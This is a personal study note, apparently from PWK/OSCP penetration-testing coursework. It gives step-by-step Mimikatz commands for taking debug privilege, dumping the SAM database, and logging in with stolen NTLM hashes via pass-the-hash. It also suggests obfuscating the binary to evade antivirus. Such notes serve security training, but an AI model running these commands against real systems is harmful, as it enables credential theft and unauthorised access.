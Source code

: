 Mimikatz PWK

LSASS is a privileged process running under the SYSTEM user.

- Mimikatz must be launched in \*\*administrator \*\*command prompt
- Copy mimikatz into the victim system - likely will be blocked by AV so recommend to have a obfuscated binary available
    - mimikatz.exe available in **/usr/share/windows-resources/mimikatz**

<ins>**Step 1: First get SeDebugPrivilege**</ins>

> ./mimikatz.exe
> 
> privilege::debug
> 
> token::elevate

![4966301c6746503dccea81898dadde74.png](:/334623ca52664eccae7ac0a21d291aa2)

<ins>**Step 2: Dump contents of the SAM database**</ins>

> lsadump::sam

![7b4cbcc81201ed7dc72f474a61c53bbe.png](:/4da9057b1a5c42f0986f67edafcc1941)

<ins>**Step 3:**</ins> <ins>Use the hash and the pass the hash as a login credential (or Crack the hash)</ins>

PtH is an attack technique to auth to a remote target by using a valid combination of username and NTLM/LM hash rather than a clear text password.

On Mimikatz

> sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash

In Kali

> pth-winexe -U username%aad3b435b51404eeaad3b435b51404ee:NTLM_Hash [//10.11.0.22](//10.11.0.22) cmd
> 
> \# The hash is a NetNTLM v1/2 https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html , 
> 
> https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

Usually funny_hash is aad3b435b51404eeaad3b435b51404ee

- Means 'no password' in LM Hash
    
- In NTLM, the equivalent is 31d6cfe0d16ae931b73c59d7e0c089c0

id: ca065c5dd0874a67afa30248bca1177d
parent_id: 0dad434f58c94c608e219795d44a723c
created_time: 2022-01-30T10:19:57.109Z
updated_time: 2022-05-18T15:07:50.154Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-30T10:19:57.109Z
user_updated_time: 2022-05-18T15:07:50.154Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1